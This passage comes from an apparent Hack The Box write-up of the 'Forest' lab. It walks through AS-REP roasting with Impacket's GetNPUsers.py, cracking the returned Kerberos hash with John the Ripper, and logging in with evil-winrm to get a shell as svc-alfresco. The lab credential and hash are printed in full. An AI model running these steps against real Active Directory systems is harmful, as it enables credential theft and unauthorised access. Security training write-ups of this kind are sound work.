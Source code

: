 Users: sebastien, lucinda, svc-alfresco, andy, mark, santi.

## Shell as svc-alfresco

After a lot of trial-and-error, I came across [this cheatsheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a). I began running Impacket's GetNPUsers.py on all the users I've found previously and succeeded in getting a ticket-granting ticket (TGT) for svc-alfresco:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/forest# locate GetNPUsers.py
/usr/share/doc/python-impacket/examples/GetNPUsers.py
root@fury-battlestation:~/htb/blog/forest# /usr/share/doc/python-impacket/examples/GetNPUsers.py -no-pass -dc-ip forest.htb HTB.LOCAL/svc-alfresco
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b4e50986c4bfb2b4287c271509bbbe89$361b1db344b953c042229ca217e36b51735b9d145b06546784b54a84c1a32cdf0f7978c43437dc713f2b15479a88d851e8d83a5dc3a286d7e691437a3bcdf7f01be34c53e29d88d25f546131e2398f928ba27d73610db19041239a9fef1c0ddf1454180349c9c1ead3fae1f7dd7d1b4dfb49ae5546c9010fc15ff1e82e61b35ace64ca64d76a0dbdfa892cdf652ef9055382e87232fc5db41adf6d40d4e044ad8def25171f2b2a8daa82a2903626d4e47c78ef3044fa7fdeccef4cb9d4790e52718bb480da5823f365fee92bb8a09e6348c38d852db5dc97b98fa9a598bb906f134d736a4fda
root@fury-battlestation:~/htb/blog/forest#
{% endhighlight %}

I then saved the ticket in a file named tgt.txt and proceeded to crack it with johnTheRipper:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/forest# nano tgt.txt
root@fury-battlestation:~/htb/blog/forest# john tgt.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:06 DONE (2020-03-18 09:28) 0.1631g/s 666518p/s 666518c/s 666518C/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@fury-battlestation:~/htb/blog/forest#
{% endhighlight %}

The password for svc-alfresco was 's3rvice'. However, Windows doesn't come with any SSH server pre-installed, so I had to try various methods of authentication until I found one that worked: [evil-winrm](https://github.com/Hackplayers/evil-winrm)

{% highlight bash %}

root@fury-battlestation:~/htb/blog/forest/evil-winrm# ruby evil-winrm.rb -i forest.htb -u svc-alfresco -p s3rvice

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> dir ..\Desktop


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        9/23/2019   2:16 PM             32 user.txt


*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
